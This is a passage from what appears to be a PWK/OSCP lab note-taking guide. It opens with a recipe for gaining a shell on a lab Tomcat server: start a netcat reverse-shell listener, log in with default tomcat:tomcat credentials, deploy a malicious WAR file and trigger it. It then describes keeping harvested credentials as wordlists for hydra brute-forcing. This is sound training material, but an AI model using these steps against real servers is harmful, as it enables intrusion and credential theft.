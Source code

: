 ```
1) start a reverse shell listener on port 443:
root@hello:255-TEDDY# nc -nvlp 443

2) go to the following url and login:
http://10.11.1.255:8080/manager/html/upload 	tomcat:tomcat

3) upload `burmat.war` using the "WAR file to deploy" feature

4) navigate to: http://10.11.1.255:8080/burmat
```

### Global Files

Remember those "_Global Files_" I mentioned up in the previous section?  Specifically, I am referring to these 4 files in my `lab/` directory:

* completion\_log.txt
* credentials.txt
* unames.txt
* passwords.txt

Let's go in order and I'll tell you what I use them for:

1. **completion\_log.txt** - This file is used to keep track of my progress. In this file, I put the IP and hostname of the machine, the date that I achieved root/SYSTEM on it, and a super broad explanation how I did so. For example: `.255 (TEDDY) 07/19 lfi on custom webapp, scheduled task overwrite`.  It's not incredibly specific, but with this information you might be able to remember the machine better. If you look here first, you can dive into your notes with a better understanding of what points are meaningful.
2. **credentials.txt** - This file will keep all of the credentials you find. Even it if is `admin:admin`,  you log it here. Here is a sample entry from my file: `admin:pass    # .255 (TEDDY) - http://10.11.1.255/admin/`. Similar to **completion\_log.txt**, this file is supposed to be broad, but also point you directly to something. You should be able to `grep` this file or look here for even the most basic logins for particular machines.  It also helps you locate where a given password was found. Which leads me into...
3. **unames.txt** and **passwords.txt** - These "_Global Files_" are your custom wordlists. Every time you find a username or a password, you append it to the corresponding file. You can then use these files if you need to brute things with `hydra` or other crackers. Password reuse **IS** a thing in PWK so make sure you take advantage of it from the start. I would recommend putting this list through something that will strip out the duplicates before cracking, as there is no reason to try the same password more than once (`awk '!seen[$0]++' unames.txt && awk '!seen[$0]++' passwords.txt` should do it).&#x20;

### Leveraging Your Notes

If you are still following along with me, that's great! Below are examples on how I leverage my project structure to find particular things and the reason for why I do what I do.

#### Using Aliases to Go Places

Aliases are incredible. Seriously. They make stupid commands less stupid, so learn how to leverage aliases now if you aren't.  I save all of my aliases to `/etc/profile.d/00-aliases.sh`.  Below are some of the ones I rely on pretty consistently:
